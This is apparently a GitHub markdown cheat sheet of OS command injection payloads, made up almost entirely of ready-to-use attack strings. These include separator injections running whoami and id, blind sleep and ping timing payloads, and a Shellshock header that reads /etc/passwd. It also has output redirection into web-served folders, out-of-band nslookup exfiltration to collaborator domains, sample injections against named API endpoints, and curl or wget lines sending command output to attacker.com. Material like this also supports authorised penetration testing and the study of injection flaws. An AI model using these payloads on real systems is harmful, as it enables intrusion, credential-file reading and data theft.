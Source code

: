 # OS Command Injection Payloads

  - [Wordlist](#wordlist)
  - [Simple Case](#simple-case)
  - [Blind Injection](#blind-injection)
  - [Blind Injection with Output Redirection](#blind-injection-with-output-redirection)
  - [Out of Band](#out-of-band)
  - [ChatGPT Payload](#chatgpt-payload)
___
## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
## ChatGpt Payload
```
; ls
; dir
| ls
| dir
&& ls
&& dir
|| ls
|| dir
`ls`
`dir`
$(ls)
$(dir)
; id
; whoami
| id
| whoami
&& id
&& whoami
|| id
|| whoami
`id`
`whoami`
$(id)
$(whoami)
; id > /tmp/output.txt
; whoami > /tmp/output.txt
| id > /tmp/output.txt
| whoami > /tmp/output.txt
&& id > /tmp/output.txt
&& whoami > /tmp/output.txt
|| id > /tmp/output.txt
|| whoami > /tmp/output.txt
`id` > /tmp/output.txt
`whoami` > /tmp/output.txt
$(id) > /tmp/output.txt
$(whoami) > /tmp/output.txt
; curl http://attacker.com?data=$(id)
; wget http://attacker.com?data=$(id)
| curl http://attacker.com?data=$(id)
| wget http://attacker.com?data=$(id)
&& curl http://attacker.com?data=$(id)
&& wget http://attacker.com?data=$(id)
|| curl http://attacker.com?data=$(id)
|| wget http://attacker.com?data=$(id)
`curl http://attacker.com?data=$(id)`
`wget http://attacker.com?data=$(id)`
$(curl http://attacker.com?data=$(id))
$(wget http://attacker.com?data=$(id))
```
